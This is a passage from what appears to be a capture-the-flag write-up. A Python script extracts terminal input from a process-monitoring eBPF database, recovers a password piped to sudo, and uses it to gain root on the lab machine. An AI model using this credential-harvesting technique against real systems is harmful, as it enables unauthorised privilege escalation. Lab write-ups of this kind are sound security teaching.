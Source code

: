 ```

import re
import sqlite3

#conn = sqlite3.connect('procmon_2024-08-22_18:00:01.db')
conn = sqlite3.connect('procmon_2024-08-22_17:02:49.db')
cursor = conn.cursor()

cursor.execute("SELECT * from ebpf;")
rows = cursor.fetchall()

time = 0
for row in rows:
    res = int(row[4])
    if row[5] == time:
        continue
    time = row[5]
    args = row[-1]
    if res == 0:
        continue
    buffer = args[8:8+res]
    print(buffer.decode().replace('\r','\n'), end='')

```

Now it prints more cleanly:

```

oxdf@hacky$ python extract_text.py 
{"ID" ./backup.sh
e
ech
echo Q3Eddtdw3pMB | sudo ./backup.sh
e
e
echo Q3Eddtdw3pMB | sudo ./backup.sh
echo Q3Eddtdw3pMB | sudo ./backup.sh
e
ech
echo Q3Eddtdw3pMB | sudo

```

The password “Q3Eddtdw3pMB” works for root:

```

tomas@lantern:~$ su -
Password: 
root@lantern:~# 

```
